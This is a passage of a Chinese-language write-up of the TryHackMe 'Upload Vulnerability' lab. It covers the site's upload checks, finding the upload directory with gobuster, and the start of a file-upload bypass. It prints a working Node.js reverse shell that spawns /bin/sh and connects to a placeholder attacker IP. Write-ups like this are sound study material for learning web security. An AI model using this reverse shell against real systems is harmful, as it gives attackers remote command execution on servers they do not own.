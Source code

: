 这里做了三个check

![image-20220525170358215]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220525170358215.png)

需要小于50KB，有magic number检查，文件类型只取第一个.后的拓展名，必须是jpg或者jpeg

## 3.2 找上传文件的路径

**没想到**

查看网站的背景来源，来自/content这个文件夹，但是直接进这个文件夹进不去

![image-20220526140735495]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526140735495.png)

![image-20220526140835451]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526140835451.png)

看了hint，说要上传一个正常的jpeg文件，然后用task中给的wordlist来找这个文件。

![image-20220526141033088]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526141033088.png)![image-20220526141049688]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526141049688.png)

下载wordlist，然后传到攻击机上，我用了https://send-anywhere.com/这个网站来传，非常方便。然后传一个正常的jpeg图片（其实Jpg也可以的），然后用gobuster找/content文件

```
gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist.txt -t 250 -x .jpeg,.jpg
```

后面有一大堆错误，不过找到了

![image-20220526142600472]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526142600472.png)

直接访问是刚才上传的jpeg文件，不过我当时传的是jpeg，现在变成.jpg了耶

![image-20220526144030066]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526144030066.png)

## 3.3 绕过（自己的方法）

1. 先找个express.js的reverse shell文件

我找的是这个网站：https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "YOUR_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
